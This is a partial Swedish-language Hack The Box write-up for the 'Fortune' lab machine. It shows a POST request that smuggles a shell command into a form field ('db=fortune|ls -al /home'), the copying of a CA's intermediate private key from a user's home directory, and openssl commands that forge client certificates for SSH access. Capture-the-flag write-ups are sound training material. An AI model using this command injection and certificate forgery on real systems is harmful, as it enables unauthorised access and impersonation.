 ```yaml
---
title: Fortune - Hack The Box
author: "0xPThree"
description: "Partial writeup.. "
date: 2019-06-25
image: images/fortune_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```





# USER
## Enumeration
Basic enum shows port **22,80,443**. 443 har cert error, 80 anropar en db med fortunes, 22 saknar vi creds för

`dirb` visar inget spännande. Kör en crawl/audit i burp på `http://10.10.10.127` och ser att den är vulnerable för os command- och code injection.

Skickar POST Request till Repeater och söker mig runt i burken efter cert filer och användare:
```bash
POST /select HTTP/1.1
Host: 10.10.10.127
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

db=fortune|ls -al /home
```

Hittar 3 användare: `bob`, `charlie` och `nfsuser`. `Bob` har massor av cert-filer vilket känns intressant. `Charlie` kommer man ej åt så chansar att `user.txt` finns här. `nfsuser` har en mer eller mindre tom hemkatalog

Plockar hem alla filer från bob så jag har följade filstruktur:
```bash
$ tree
.
├── bob
│   ├── ca
│   │   ├── certs
│   │   │   └── ca.cert.pem
│   │   ├── index.txt
│   │   ├── index.txt.attr
│   │   ├── intermediate
│   │   │   ├── certs
│   │   │   │   ├── ca-chain.cert.pem
│   │   │   │   ├── fortune.htb.cert.pem
│   │   │   │   ├── intermediate.cert.pem
│   │   │   │   └── intermediate.cert.srl
│   │   │   ├── crlnumber
│   │   │   ├── csr
│   │   │   │   ├── fortune.htb.csr.pem
│   │   │   │   └── intermediate.csr.pem
│   │   │   ├── index.txt
│   │   │   ├── newcerts
│   │   │   │   └── 1000.pem
│   │   │   ├── openssl.cnf
│   │   │   └── private
│   │   │       └── intermediate.key.pem
│   │   ├── newcerts
│   │   │   └── 1000.pem
│   │   ├── openssl.cnf
│   │   ├── serial
│   │   └── serial.old
│   └── dba
│       └── authpf.sql
```

För enkelhet skapa en dir som heter custom-certs utanför dir bob. Skapa custom cert-key samt request för bob och charlie (subj-info tagen från `bob/ca/index.txt` samt `bob/ca/intermediate/index.txt`) i nyskapade custom-cert dir'en:
```bash
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=Fortune Intermediate CA/emailAddress=bob@fortune.htb"

openssl req -newkey rsa:4096 -keyout charlie_key.pem -out charlie_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=fortune.htb/emailAddress=charlie@fortune.htb"
```

Döp om filerna för enkelhetensskull:
```bash
mv bob_key.pem bob.key && mv bob_csr.pem bob.csr
mv charlie_key.pem charlie.key && mv charlie_csr.pem charlie.csr
```
```bash
$ ls -al
total 24
drwxr-xr-x 1 root root  108 Jun 26 14:25 .
drwxr-xr-x 1 root root  196 Jun 26 14:10 ..
-rw-r--r-- 1 root root 1716 Jun 26 14:11 bob.csr
-rw------- 1 root root 3272 Jun 26 14:11 bob.key
-rw-r--r-- 1 root root 1704 Jun 26 14:12 charlie.csr
-rw------- 1 root root 3272 Jun 26 14:12 charlie.key
```

Signera certificate requests med intermediate.key (pwd = htb/machines/fortune/custom-certs):
```bash
openssl x509 -req -days 365 -in bob.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out bob.crt

openssl x509 -req -days 365 -in charlie.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out charlie.crt
```

Konvertera .crt till .p12 för att kunna använda dem i Firefox, lämna password blankt (pwd = htb/machines/fortune/custom-certs):
```bash
openssl pkcs12 -export -out bob.p12 -inkey bob.key -in bob.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
openssl pkcs12 -export -out charlie.p12 -inkey charlie.key -in charlie.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
```

Importera charlie.p12 i Firefox och surfa in på https://10.10.10.127 för att få SSH key pair

`options -> preferences -> advanced -> certificates -> view certificates -> your certificates -> import -> select charlie.p12 -> ok`

Tryck på "generate" och spara ner public key i `/root/.ssh/id_rsa.pub` (perm 644) samt private i `/root/.ssh/id_rsa` (perm 600)

Logga in som nfsuser med public key.
`ssh nfsuser@10.10.10.127`

